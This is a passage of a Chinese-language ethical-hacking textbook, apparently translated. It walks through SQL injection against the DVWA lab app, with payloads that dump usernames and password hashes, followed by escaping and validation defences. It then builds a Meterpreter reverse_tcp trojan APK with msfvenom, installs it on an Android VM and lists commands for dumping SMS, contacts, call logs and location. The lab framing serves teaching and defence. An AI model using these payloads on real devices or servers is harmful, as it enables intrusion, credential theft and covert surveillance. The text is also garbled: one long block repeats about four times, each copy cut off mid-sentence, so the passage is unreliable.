通常，输入用户 ID（如 1）到文本框中并点击提交会显示该特定用户的信息。然而，我们将入侵该表单以显示所有用户。

3. 如果你尝试过查找用户，请重新加载 SQL 注入页面。然后在 User ID 文本框中输入 `' OR 1='1`，如 图 8-12 所示。


图 8-12：通过向易受攻击的数据库搜索表单注入 SQL 代码来攻击数据库

4. 点击提交，你应该会看到所有用户的名字和姓氏（姓氏）的列表，如 图 8-13 所示。

5. 现在让我们提取所有 DVWA 用户名和密码。重新加载 SQL 注入页面并在 User ID 下方的搜索框中输入以下 SQL 代码：

```
' union select user, password from users#
```


图 8-13：我们已泄露所有五个用户的名字和姓氏！

SQL 中的 `union` 命令将两个查询语句连接起来，以便同时访问多个表。在这种情况下，我们将用于查找名字和姓氏的用户 ID 查询与将从 `users` 表返回用户名和密码的查询结合起来。

6. 点击提交，你会看到所有五个用户的用户名和密码代替了他们的名字和姓氏，如 图 8-14 所示。所有密码都以哈希形式存在，但正如你在第 7 章中学到的那样，像 Hashes.com 或 John the Ripper 这样的工具可以轻松破解大多数密码哈希。


图 8-14：我们已使用 SQL 注入攻击从 DVWA 窃取了所有用户名和密码哈希！

正如你所见，拥有几行简短的 JavaScript 或 SQL 代码的黑客可以破坏 Web 应用程序，将用户重定向到恶意站点，窃取数据，甚至更糟。幸运的是，道德黑客可以帮助网站所有者抵御这些攻击，从而极大地提高每个人的在线数据安全性。

## 从 XSS、SQLi 等攻击中保护 Web 应用程序

DVWA 展示了如何入侵 *和* 如何保护 Web 应用程序。每个易受攻击页面的右下角都有一个 View Source 按钮，可以显示页面的代码。我们将比较低安全性页面的源代码与更高安全级别页面的源代码，以学习如何防止注入攻击。

仍在 DVWA 的脚本安全性设置为低的 SQL 注入页面上，点击 `View Source` 查看用户查找应用程序的源代码，包括以下两行代码：

```
$id = $_GET['id'];
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";
```

该 Web 应用程序是用 PHP 编写的，一种流行的 Web 编程语言。第一行代码从名为 `'id'` 的表单字段获取用户输入并将其存储在名为 `$id` 的变量中。然后，它使用用户输入创建 SQL 查询。用户未修改的输入成为代码的一部分——这是危险的编程错误，也是我们能够入侵数据库的原因。

点击左侧的 `DVWA Security`，将脚本安全级别更改为 `medium`，然后点击 `Submit`。点击 `SQL Injection` 返回用户查找应用程序，然后再次点击 `View Source`。（如果切换安全级别有困难，请关闭 Edge 浏览器，重新打开并重新登录 DVWA。）这次，你会看到在刚刚列出的两行之间插入了一行新代码：

```
$id = mysql_real_escape_string($id);
```

这一行重新格式化用户的输入，在用户输入的任何特殊字符之前添加 *转义字符*（如反斜杠 `\`），例如我们在 `' OR 1='1` 入侵中使用的单引号 `'`。在单引号前添加反斜杠会告诉数据库将单引号视为文本的一部分，而不是命令的一部分。`mysql_real_escape_string()` 命令通过将单引号和其他潜在恶意字符更改为无害的转义序列形式（`\'`）使表单更安全，这样数据库就不会将其视为代码，但有动机的攻击者仍可能绕过它。

返回 DVWA Security 页面并将脚本安全级别更改为 `high`。然后返回 SQL 注入页面并最后一次点击 `View Source`。查找以下代码：

```
$id = $_GET['id']; $id = stripslashes($id); $id = mysql_real_escape_string($id);    if (is_numeric($id)){ --snip--
```

高安全性代码使用 `stripslashes()` 命令从用户文本中删除反斜杠，并使用 `is_numeric()` 确保你输入的是数字。使用 `is_numeric()` 是表单字段 *验证* 的一个例子：命令 `is_numeric()` 检查用户的提交是否采用可接受的预期格式——在这种情况下是数字 ID——并且只有在是的情况下才继续。

查看低、中、高安全性的其他页面的源代码，以发现 Web 开发人员用来保护其应用程序的命令的其他层。例如，XSS 反射页面的安全版本包含 `htmlspecialchars()` 以防止 HTML 和 JavaScript 注入。为了防止用户输入破坏网站或数据库代码，更高安全版本源代码中添加的命令会 *清理* 输入，或在该输入在网站或数据库中使用之前，从中删除可能恶意的代码符号（如单引号、反斜杠和尖括号字符）。

## 总结

在本章中，你了解到 Web 服务器全天候在线，可供全球各地的黑客攻击。此外，单个未受保护的 Web 表单可能会使攻击者暴露数百万用户的数据。你在虚拟黑客实验室中构建了一个故意易受攻击的 Web 服务器 Metasploitable VM，并使用 DVWA Web 应用程序训练自己测试网站的两种代码注入类型：跨站脚本（XSS）和 SQL 注入（SQLi）。

你使用了反射和存储的恶意 JavaScript 代码使网页弹出警报消息并将浏览器重定向到另一个网站。你使用 SQL 查看了数据库驱动的 Web 应用程序中所有用户的名字和姓氏，然后你了解了攻击者如何从 Web 数据库窃取用户名和密码哈希。使用我们在第 7 章中使用的密码破解工具，攻击者可以用很少的技能或精力窃取数百万用户名和密码。

在如此多的利益相关时，保护 Web 应用程序免受攻击是道德黑客的重要角色。需要多层安全才能充分保护 Web 应用程序。你学习了流行的 Web 编程语言 PHP 中用于通过删除特殊代码相关字符来清理用户输入的几个函数，从而保护服务器和数据库。你还看到了表单字段验证的示例，检查文本字段以确保用户输入了可接受的值。

在下一章，你将再为你的道德黑客工具箱添加一组技能——移动设备黑客！你将学习如何保护自己和你的亲人免受日益增多的移动攻击。

# 9 入侵移动设备


在本章中，我们将探索移动设备黑客的世界。你将使用世界上最流行的移动操作系统 Android 构建一台虚拟机。然后你将使用 Metasploit 入侵你的虚拟移动设备，并使用 Meterpreter 远程控制它，就像你在第 6 章中入侵 PC 一样。你还将学习几种保护自己、家人和朋友免受日益增多的移动攻击的方法。

## 创建 Android 手机/平板电脑 VM


## 在 VirtualBox 中设置 Android VM

我们希望以安全、合乎道德的方式入侵 Android 移动设备，因此我们将首先在虚拟化黑客实验室中添加一个 Android VM。按照以下步骤下载并配置 VM。

## 下载和配置

1. 前往 [`www.osboxes.org/android-x86/`](https://www.osboxes.org/android-x86/) 并向下滚动到 Android-x86 8.1-RC1 Oreo 部分。选择 `VirtualBox` 选项卡并点击 64 位版本的下载按钮。
2. 你的下载文件应具有 `*.7z` 文件扩展名。要解压文件，你需要下载并安装 Windows 的 `7-Zip`、Mac 的 Archiver 或 Linux 的 `p7zip-full`。获得所需软件后，解压 Android VM：在 Windows 上，右键单击文件并选择 `7-Zip`▶`Extract Here`；在 macOS 或 Linux 上，双击文件。VM 将被解压到名为 `64bit` 的文件夹中。
3. 打开 `VirtualBox` 并点击 New 以打开创建虚拟机窗口。
4. 在名称和操作系统对话框中，在名称：文本框中输入 Android 8.1 或类似名称，从类型：下拉列表中选择 Linux，并从版本：下拉列表中选择 Other Linux (64-bit)。然后在 Windows 上点击 Next 或在 macOS 上点击 Continue。
5. 在内存大小对话框中，在框中输入 2048 以为 VM 提供 2,048MB（2GB）的 RAM，然后继续到下一屏幕。
6. 在硬盘对话框中，选择使用现有虚拟硬盘文件并点击浏览图标（带绿色箭头的文件夹）。在出现的弹出窗口中，点击 Add。然后在你解压的 `64bit` 文件夹内找到并选择 `*.vdi` 文件。
7. 继续点击返回到硬盘对话框并选择 Create 以创建你的 VM。你的新 Android 8.1 VM 现在应该出现在 VirtualBox 的 VM 列表中，如 图 9-1 所示。
8. 在列表中选择 Android VM，进入设置，选择显示选项卡。在图形控制器：下拉列表中，选择 `VBoxSVGA`。这会更改显示设置，以便我们能够看到 Android 智能手机 VM 的图形用户界面（GUI）版本。
9. 仍在显示选项卡中，确保启用 3D 加速旁边的复选框未被选中。（如果你的 VM 一会儿无法工作，你可能需要打开 3D 加速。）
10. 切换到网络设置选项卡并选择名为 `PublicNAT` 的 NAT 网络。这将使你的 Android VM 能够与虚拟化黑客实验室中的 Kali VM 通信。


图 9-1：我们已在 VirtualBox 中添加了 Android 8.1 VM！

你现在准备启动你的 Android VM 了！第一次加载可能需要几分钟时间（如果屏幕在 1 分钟左右仍然保持黑色，你可能需要重新启动 VM），但最终你会看到与 图 9-2 所示类似的 Android 设备主屏幕。


图 9-2：虚拟 Android 设备上的主屏幕

在开始探索 VM 之前，进入 Android VM 菜单栏中的输入▶鼠标集成以取消选择鼠标集成。保留鼠标集成开启可能会使在 Android VM 上控制指针变得困难。（Android VM 是为触摸屏制作的，所以在 Android 上使用鼠标本来就很令人沮丧。）完成此操作后，你就可以在虚拟 Android 设备上四处查看了。

打开 Chrome 浏览器并浏览到网页，或打开通讯录应用并添加几个联系人——尝试你想要的任何操作。Android VM 几乎与真正的 Android 平板电脑或手机相同，只是它不能拨打电话，也没有 GPS 等用于位置服务的某些传感器。记住，你可以使用右 CTRL 键（Windows）或左 COMMAND 键（Mac）来重新控制鼠标，当你想离开 Android VM 时，就像我们对其他 VM 所做的那样。

## 启动 Android 木马

现在我们准备创建一些恶意软件。就像我们在第 6 章中对 Windows VM 所做的那样，我们将使用 Meterpreter 木马来感染并接管 Android VM。我们将把木马隐藏在名为 `CoolGame.apk` 的文件中。Android 使用 APK 文件格式来分发和安装移动应用。按照以下步骤，你将看到攻击者诱骗 Android 用户安装并运行受感染应用是多么容易。

1. 登录你的 Kali VM 并启动 Metasploit。
2. 在 Metasploit `msf6` 命令提示符下，输入以下命令作为一行，将你的 Kali VM 的 IP 地址替换为 `LHOST=` 之后的部分：
```
msf6 > sudo msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.9.4 -f raw -o /var/www/html/share/CoolGame.apk
```
这会创建一个 `android/meterpreter/reverse_tcp` 有效载荷并以 APK 文件的形式保存，直接保存到 Kali 的共享网页文件夹中。Metasploit 将响应几行输出，以类似以下内容结束：
```
--snip--
Payload size: 10080 bytes
Saved as: /var/www/html/share/CoolGame.apk
```
3. 打开 Apache Web 服务器服务，以便你可以从 Android VM 下载该文件：
```
msf6 > sudo service apache2 start
```
4. 为验证你的 Kali Web 服务器是否处于活动状态，打开 Firefox 并前往 `localhost/share`。你应该在文件列表中看到 `CoolGame.apk`。
5. 在 Metasploit 终端窗口中输入以下四个命令来设置处理传入 Meterpreter 连接的侦听器：
```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD android/meterpreter/reverse_tcp PAYLOAD => android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.9.4
LHOST => 10.0.9.4
msf6 exploit(multi/handler) > exploit
```
Metasploit 现在正在侦听传入连接！

## 感染 Android VM

现在我们将下载木马应用并故意感染你的虚拟 Android 设备。切换回你的 Android VM 并按照以下步骤操作：

1. 打开 Chrome 浏览器并在地址栏中输入你的 Kali VM 的 IP 地址，后跟 `/share/`，例如 `10.0.9.4/share/`，如 图 9-3 所示。


图 9-3：从 Android VM 的 Chrome 浏览器导航到 Kali VM 的 `share` 文件夹，找到你的 `CoolGame.apk` 木马应用准备下载和安装。

2. 点击 APK 文件进行下载。Android 第一次尝试下载文件时会弹出一条消息，要求你让 Chrome 有权访问设备上的文件存储。点击更新权限，然后允许。


3. 再次点击你的 APK 文件进行下载。Chrome 通常会显示警告“此类型的文件可能会损害你的设备”。点击确定仍要下载文件。

4. 点击 Android VM 屏幕左上角的向下箭头，你将看到如 图 9-5 所示的下载管理器。点击列表中的 APK 文件名以安装应用。

5. Android 会弹出另一个窗口，告诉你“你的手机不允许从此来源安装未知应用”。点击设置，然后滑动切换开关以打开允许来自此来源的设置。


图 9-5：访问下载管理器


6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
=============================== Command        Description -------        ----------- app_install    Request to install apk file app_list       List installed apps in the device app_run        Start Main Activity for package name app_uninstall  Request to uninstall application
```

我们首先要做的是防止 Android 设备进入睡眠。请在 `Meterpreter` 提示符下输入以下命令：

```
meterpreter > wakelock -w
```

`Meterpreter` 会回复 `Wakelock was acquired`，如果你的 Android 设备之前已进入睡眠或变为黑屏，屏幕将唤醒并且设备会保持唤醒状态，直到你释放 `wakelock`。

最容易运行 `Meterpreter` 命令并查看其效果的方法是同时在屏幕上显示 Android 和 Kali 虚拟机。（这种方法也有助于在攻击者入侵设备时看到用户所见的内容。）如果您有双显示器，请将 Kali 放在一个显示器上，Android 放在另一个显示器上。如果您只有一个屏幕，请尝试将 Kali 与 Android 并排放置，以便在操作时可以看到两者。

### 运行应用

一旦攻击者控制了移动设备，他们就可以远程启动任何想要的应用。为了了解其工作原理，让我们列出用户在其设备上安装的应用。在 `Meterpreter` 终端窗口中输入命令 `app_list`。Android 将列出智能手机上安装的每个应用，包括应用图标上显示的名称和该应用的包统一资源标识符（`URI`）字符串。*URI 字符串*是我们识别 Android 设备上各种资源的方式。例如，你可能会看到 YouTube 应用列出如下：

```
  YouTube  com.google.android.youtube  false  true
```

行末最后两个条目告诉你该应用是否正在运行以及它是否是操作系统安装的系统应用。这里，`false` 值告诉我们 YouTube 应用当前未运行，而 `true` 值表示它是作为 Android 操作系统的一部分安装的标准应用。

现在我们知道 YouTube 已安装在 Android 设备上，我们可以使用 `app_run` 命令和 YouTube 的包 `URI` 字符串从 `Meterpreter` 启动它。输入以下内容：

```
meterpreter > app_run com.google.android.youtube
```

你会在 Android 虚拟机中看到 YouTube 应用打开！切回你的 Android 虚拟机并搜索视频“Bryson Payne TED Talk”。Android 虚拟机上的 YouTube 应用将调出该视频（不过你可能无法通过虚拟机听到音频，因为 VirtualBox 的驱动程序并不总是适用于智能手机和平板电脑操作系统）。

你可以通过这种方式在被感染的智能手机或平板电脑上运行 *任何应用*，完全不需要用户的许可或交互。尝试运行更多应用，例如设置（`com.android.settings`）或电话应用（`com.android.dialer`）。

你也可以请求卸载应用的权限，但用户会收到提醒。尝试以下命令：

```
meterpreter > app_uninstall com.google.android.gm
```

你的 Android 虚拟机会显示一个弹出窗口询问是否要卸载 Gmail，如 图 9-6 所示。点击 **Cancel** 以保留设备上的 Gmail 应用。新款 Android 设备的[content]
6. 在 Android 屏幕底部黑色条带中点击返回按钮（左箭头），你会看到名为 `MainActivity` 的 `Meterpreter` 木马应用请求的权限列表：设置、图片、视频、联系人、GPS、麦克风、通话记录、短信、SD 卡访问……几乎是智能手机允许的每项权限！在权限窗口右下角点击 **Next**，然后点击 **Install**。如果收到 Google Play Protect 警告，点击 **Install Anyway**。
7. 在 Android 虚拟机屏幕底部点击主屏幕按钮（中间的圆圈）。然后点击并向上拖动屏幕以显示已安装的应用。点击 `MainActivity` 图标启动木马应用。
8. 切回你的 Kali 虚拟机，你会看到 `Meterpreter` 中已打开一个新的会话。

我们 Android 设备上的木马已向 Kali 汇报并等待命令。让我们看看接管控制后能做什么。

## 控制 Android 虚拟机

恶意移动应用带来的威胁与 PC 上的恶意软件威胁一样真实。如果你在智能手机上安装恶意软件，攻击者将能够访问 *大量* 敏感信息：你拍摄的每张图片和视频、所有联系人、你的通话和短信历史、你的 GPS 位置历史、你进行过的每一次网络搜索和观看的 YouTube 视频，以及攻击者可随时用来监视你的便携式摄像头和麦克风——这就是你随身携带的东西。

要准确了解恶意黑客使用像 `Meterpreter` 木马这样的应用能做什么，请在 `Meterpreter` 终端窗口中输入 `help`。你将看到所有可用的 `Meterpreter` 命令列表。除了我们在第 6 章入侵 Windows PC 时看到的那些命令外，还有两个专门针对 Android 设备的命令部分：

```
Android Commands
================ Command           Description -------           ----------- activity_start    Start an Android activity from a Uri string check_root        Check if device is rooted dump_calllog      Get call log dump_contacts     Get contacts list dump_sms          Get sms messages geolocate         Get current lat-long using geolocation hide_app_icon     Hide the app icon from the launcher interval_collect  Manage interval collection capabilities send_sms          Sends SMS from target session set_audio_mode    Set Ringer Mode sqlite_query      Query a SQLite database from storage wakelock          Enable/Disable Wakelock wlan_geolocate    Get current lat-long using WLAN information
Application Controller Commands
